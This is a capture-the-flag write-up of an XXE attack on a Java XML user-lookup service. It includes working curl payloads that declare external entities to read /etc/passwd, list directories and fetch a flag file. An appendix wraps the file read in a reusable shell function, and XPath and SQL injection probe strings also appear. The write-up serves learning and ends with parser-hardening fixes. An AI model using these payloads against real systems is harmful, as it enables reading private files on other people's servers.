

# RELIC SOCIETY, XXE File Read, My Writeup

| | |
|---|---|
| **Platform** | pwnzone (hosted CTF event) |
| **Target** | RELIC SOCIETY ("Fetch User Data", XML user lookup) |
| **Service** | `Werkzeug/3.1.9 Python/3.9.25` header, but the real app is **`app.jar` (Java)**, HTTP, TCP/8230 (EC2 instance) |
| **IP:Port** | `54.72.82.22:8230` |
| **Flag format** | `safctf{...}` |
| **Author** | lacmyst |
| **Date** | 2026-10-02 |
| **Outcome** | Turned a reflected XML lookup into **XXE**, read arbitrary files, listed directories to find a randomly-named flag file, and read it. |
| **Honesty note** | This one was me **experimenting from what I learned in the dojo box** (injection techniques + special delimiters), I correctly smelled "injection in XML," and worked out the exact class (**XXE**, not command/XPath injection) and drove it to the flag. |

---

## 1. The Short Version

I came into this straight off the **dojo command-injection box**, where I'd drilled injection and the special delimiter characters that break interpreters. So when I inspected RELIC SOCIETY and saw the page building an **XML request** (`<request><id>…</id></request>`) client-side, my gut said *"injection, in XML."* I tested the way I'd learned, append a metacharacter and watch for a change, and appending **`&&`** threw an error, while my normal input came **reflected** back in the response. Two classic injection tells: a metacharacter breaks it, and my input is echoed.

My first theory was command/XPath injection, but the breakout payloads (`1 or 1=1`, `' or '1'='1`) just reflected literally, they didn't *execute*. Working it through, the real class clicked: the server **parses my XML**, and my `<id>` is **reflected**, that's **XXE (XML External Entity injection)**. The `&&` error wasn't a shell thing; `&` starts an XML entity, so an undefined one crashes the parser. I defined my *own* external entity pointing at a file, referenced it in the reflected `<id>`, and the file contents came back. From there I listed directories (filenames are XML-safe) to find a **randomly-named flag file** at `/`, and read it.

**What I walked away with**

| Flag | Value | How |
|---|---|---|
| Flag | `safctf{960c0e8a73c24bd9b1aee314ded96157}` | XXE file read of `/flag8b9d5b8e264a.txt` via the reflected `<id>` |

---

## 1.1 Attack Chain



---

## 2. Weakness I Used

| # | What | Class | Where | Severity |
|---|---|---|---|---|
| 1 | XML parser resolves external entities on untrusted input, and parsed content is reflected | **XXE / Improper Restriction of XML External Entity** (CWE-611) | `POST /fetch_user` | Critical (arbitrary file read) |

---

## 3. Recon, Reading the Page Like the Dojo Taught Me

The form "Fetch User Data" takes a `user_id`, and the JS builds an **XML body** and POSTs it:
```js
const requestXml = `<request><id>${userId}</id></request>`;
fetch('/fetch_user', { method:'POST', headers:{'Content-Type':'application/xml'}, body:requestXml });
```
The response is an XML user record:
```bash
$ curl -s -X POST .../fetch_user -H 'Content-Type: application/xml' --data '<request><id>1</id></request>'
<user><id>45905544</id><name>Mkenya Halisi</name><phone_number>254797000111</phone_number><balance>17000.00</balance></user>
```
This is exactly the kind of boundary the dojo box taught me to probe: **my input crosses into an interpreter** (here, an XML parser). So I poked it.

---

## 4. The Injection Tells (what I noticed)

Applying the dojo method, one metacharacter at a time, watch for change:

| What I sent as `id` | Result | Read |
|---|---|---|
| `1` | real user record | baseline / oracle |
| `9999` (no match) | `<id>9999</id>` echoed, empty fields | **my input is reflected** |
| `1 && 1` | `<error>Invalid input</error>` | a metacharacter **breaks the parser** |

Those two facts, **reflection** + **a metacharacter that breaks it**, are the signature of injection. I just had the *class* wrong at first.

---

## 5. Correcting the Class

I assumed command or XPath injection and tried breakouts:
```
1 or 1=1      ' or '1'='1      1] | //user[1      *      last()
```
Every one **reflected literally** and matched nothing, so the `id` isn't dropped into an executable XPath/SQL expression. The thing that *is* happening: **the server parses the XML I send.** And crucially, my `<id>` is **echoed back**. That reframes the `&&` error: `&` isn't a shell operator here, it's the start of an **XML entity reference**, an undefined one is what threw `Invalid input`.

Server parses attacker XML + reflects it = **XXE**. I can declare my own entity and have the parser expand it into the reflected output.

---

## 6. Exploiting the XXE

### 6.1 Confirm, read a file
```bash
curl -s -X POST .../fetch_user -H 'Content-Type: application/xml' --data '<?xml version="1.0"?>
<!DOCTYPE request [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<request><id>&xxe;</id></request>'
```
→ `/etc/passwd` came back inside `<id>…</id>`. **XXE confirmed.** (It also revealed a `ctfuser` account.)

### 6.2 The limitation I hit
Reading `app.py`-style source and `/proc/self/cmdline` returned `Invalid input`. Reason: the file contents get reflected **as XML text**, and `<`, `>`, `&`, and NUL bytes are illegal there, source code and binaries break the response. So **reflected XXE only cleanly returns files without those characters.**

### 6.3 Fingerprint + pivot to directory listing
Pointing the entity at a **directory** (`file:///dir/`) returned a **file listing**, a behavior of **Java's** XML/URL handler. So the real app is **`app.jar`** (the `Werkzeug/Python` header was a front). Filenames have no XML-special chars, so **listing directories works where reading source fails.** I listed the root:
```bash
--data '<?xml version="1.0"?>
<!DOCTYPE request [ <!ENTITY xxe SYSTEM "file:///"> ]>
<request><id>&xxe;</id></request>'
```
```
... flag8b9d5b8e264a.txt ...
```
A **randomly-named** flag file at `/`, which is exactly why guessing `/flag.txt` had failed.

### 6.4 Read the flag
```bash
curl -s -X POST .../fetch_user -H 'Content-Type: application/xml' --data '<?xml version="1.0"?>
<!DOCTYPE request [ <!ENTITY xxe SYSTEM "file:///flag8b9d5b8e264a.txt"> ]>
<request><id>&xxe;</id></request>' | grep -oE 'safctf\{[^}]*\}'
```

> **Flag:** `safctf{960c0e8a73c24bd9b1aee314ded96157}`

(A flag like `safctf{...}` only contains `{}`, XML-safe, so it reflects cleanly.)

---

## 7. Why It Worked & How I'd Fix It

- *Cause:* the XML parser processes `<!DOCTYPE>` / external entities on untrusted input, and parsed content is reflected back to me → arbitrary local file read.
- *Fix:* **disable DOCTYPE and external entities** in the parser. In Java:
  ```java
  dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
  dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
  dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
  dbf.setXIncludeAware(false);
  dbf.setExpandEntityReferences(false);
  ```
  And don't reflect parsed XML back to the client. Validate `id` as a plain integer before it ever reaches a parser.

---

## 8. Timeline

- Inspected the page → it builds an **XML** request → gut said "injection in XML" (dojo reflex).
- Probed: `9999` → **reflected**; `1 && 1` → **error** → injection tells present.
- Tried XPath/command breakouts → all reflect literally, none execute → wrong class.
- Reframed it: server parses my XML + reflects it → **XXE**; `&` error = entity, not shell.
- `file:///etc/passwd` via a declared entity → **confirmed**; found `ctfuser`.
- Source/`cmdline` failed (XML-illegal chars/NUL) → `file:///dir/` listings work → app is **`app.jar` (Java)**.
- Listed `/` → `flag8b9d5b8e264a.txt` (randomized) → XXE-read it → **flag**.

---

## 9. References

- OWASP: XML External Entity (XXE) Prevention Cheat Sheet; CWE-611
- PayloadsAllTheThings → XXE Injection (file read, OOB, Java specifics)
- Java XXE notes, `file://` directory listing behavior; disabling DOCTYPE/entities
- `curl --data` with a DOCTYPE/entity body; `/etc/passwd` & directory listings as XXE oracles
- Related: my dojo write-up on injection + special delimiters that started this instinct

---

## 10. Appendix, The Clean Path

```bash
T=http://54.72.82.22:8230
xxe(){ curl -s -X POST $T/fetch_user -H 'Content-Type: application/xml' --data "<?xml version=\"1.0\"?>
<!DOCTYPE request [ <!ENTITY x SYSTEM \"file://$1\"> ]>
<request><id>&x;</id></request>"; }

xxe /etc/passwd            # confirm XXE
xxe /                      # list root → spot flag8b9d5b8e264a.txt
xxe /flag8b9d5b8e264a.txt | grep -oE 'safctf\{[^}]*\}'
```
Two lessons I'm keeping: **reflection + a metacharacter error means injection, but identify the *right* interpreter** (XML parser → XXE, not shell); and **when reflected XXE chokes on source/binaries (`<`/`>`/`&`/NUL), list directories instead**, filenames are clean, and they hand you randomly-named targets you'd never guess.
